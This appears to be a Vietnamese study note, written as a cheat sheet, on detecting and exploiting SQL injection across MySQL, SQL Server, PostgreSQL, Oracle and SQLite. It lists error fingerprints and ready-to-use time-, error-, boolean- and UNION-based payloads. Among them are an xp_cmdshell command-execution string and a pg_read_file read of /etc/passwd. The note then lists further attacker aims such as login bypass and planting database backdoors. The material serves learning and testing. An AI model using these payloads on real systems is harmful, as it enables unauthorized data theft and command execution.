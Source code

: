 ## Người thực hiện: Mai Anh
## Cập nhật: 18/08/2025 
---

1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

# Phát hiện SQL Injection trên các loại CSDL

Mỗi hệ quản trị cơ sở dữ liệu (DBMS) có cú pháp và hàm riêng.  
Dưới đây là một số kỹ thuật phát hiện đặc trưng:

## MySQL
### Dấu hiệu nhận diện
- Error messages chứa "MySQL", "mysqli_", hoặc "Warning: mysql_"
- Hỗ trợ comment style `--`  và `#`
- Có thể stack queries với `;`

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND SLEEP(5)-- 
' UNION SELECT SLEEP(5)-- 
```

**Error-based**
```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION(), 0x7e))-- 
' AND UPDATEXML(1, CONCAT(0x7e, DATABASE(), 0x7e), 1)-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(VERSION(),1,1)='5'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), DATABASE(), USER()-- 
' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

## SQL Server (MSSQL)
### Dấu hiệu nhận diện
- Error messages chứa "Microsoft OLE DB", "SQLSTATE", hoặc "Microsoft SQL Server"
- Hỗ trợ `@@` variables
- Có thể sử dụng `xp_cmdshell` để thực thi lệnh hệ thống

### Kỹ thuật phát hiện
**Time-based**
```sql
'; WAITFOR DELAY '00:00:05'-- 
' AND 1=(SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5)-- 
```

**Error-based**
```sql
' AND 1=CONVERT(INT, @@VERSION)-- 
' UNION SELECT NULL, NULL WHERE 1=CONVERT(INT, DB_NAME())-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(@@VERSION,1,1)='M'-- 
```

**Information gathering**
```sql
' UNION SELECT @@VERSION, DB_NAME(), SYSTEM_USER-- 
' UNION SELECT name FROM master..sysdatabases-- 
' UNION SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')-- 
```

**Command execution (nếu có quyền)**
```sql
'; EXEC xp_cmdshell 'whoami'--
```

## PostgreSQL
### Dấu hiệu nhận diện
- Error messages chứa "PostgreSQL", "psql", hoặc "pg_"
- Hỗ trợ `::` casting operator
- Case-sensitive string comparisons

### Kỹ thuật phát hiện
**Time-based**
```sql
'; SELECT PG_SLEEP(5)-- 
' AND 1=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000))-- 
```

**Error-based**
```sql
' AND CAST(VERSION() AS INT)-- 
' UNION SELECT CAST(CURRENT_DATABASE() AS INT)-- 
```

**Boolean-based**
```sql
' AND SUBSTR(VERSION(),1,10)='PostgreSQL'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), CURRENT_DATABASE(), CURRENT_USER-- 
' UNION SELECT schemaname FROM pg_tables-- 
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- 
```

**File operations (nếu có quyền)**
```sql
' UNION SELECT pg_read_file('/etc/passwd')--
```

## Oracle
### Dấu hiệu nhận diện
- Error messages chứa "ORA-", "Oracle", hoặc "OracleDriver"
- Yêu cầu `FROM dual` cho single value queries
- Sử dụng `||` để concatenate strings

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND (SELECT COUNT(*) FROM ALL_USERS T1, ALL_USERS T2, ALL_USERS T3)>0-- 
' UNION SELECT DBMS_PIPE.RECEIVE_MESSAGE('x',5) FROM DUAL-- 
```

**Error-based**
```sql
' AND CAST((SELECT BANNER FROM V$VERSION WHERE ROWNUM=1) AS INT)=1-- 
' UNION SELECT TO_CHAR(1/0) FROM DUAL-- 
```

**Boolean-based**
```sql
' AND SUBSTR(BANNER,1,6)='Oracle' AND '1'='1'-- 
```

**Information gathering**
```sql
' UNION SELECT BANNER, NULL FROM V$VERSION-- 
' UNION SELECT USERNAME, NULL FROM ALL_USERS-- 
' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES-- 
```
## SQLite

### Dấu hiệu nhận diện
- Error messages chứa "SQLite", "sqlite3", hoặc "database is locked"
- Không hỗ trợ stored procedures
- Sử dụng `sqlite_master` table

### Kỹ thuật phát hiện
**Time-based (limited options)**
```sql
' AND RANDOM()=RANDOM()-- 
```

**Error-based**
```sql
' AND CAST(SQLITE_VERSION() AS INT)=1-- 
```

**Boolean-based**
```sql
' AND SUBSTR(SQLITE_VERSION(),1,1)='3'-- 
```

**Information gathering**
```sql
' UNION SELECT SQLITE_VERSION(), NULL-- 
' UNION SELECT sql, name FROM sqlite_master WHERE type='table'-- 
' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
```


# Ứng dụng SQLi ngoài việc thu thập dữ liệu

Ngoài việc lấy dữ liệu nhạy cảm, SQLi còn cho phép kẻ tấn công:

- **Bypass xác thực** → Đăng nhập không cần mật khẩu.  
- **Chèn, sửa hoặc xóa dữ liệu** → Làm thay đổi hoặc mất mát dữ liệu.  
- **Chiếm quyền điều khiển hệ thống** → Kết hợp với lỗ hổng khác để thực thi lệnh hệ điều hành.  
- **Phát hiện cấu trúc database** → Liệt kê bảng, cột, user DB.  
- **Leo thang đặc quyền** → Nếu tài khoản DB có quyền cao, có thể chiếm toàn bộ hệ thống.  
- **Tạo backdoor trong DB** → Cài đặt trigger hoặc stored procedure độc hại để duy trì truy cập.  
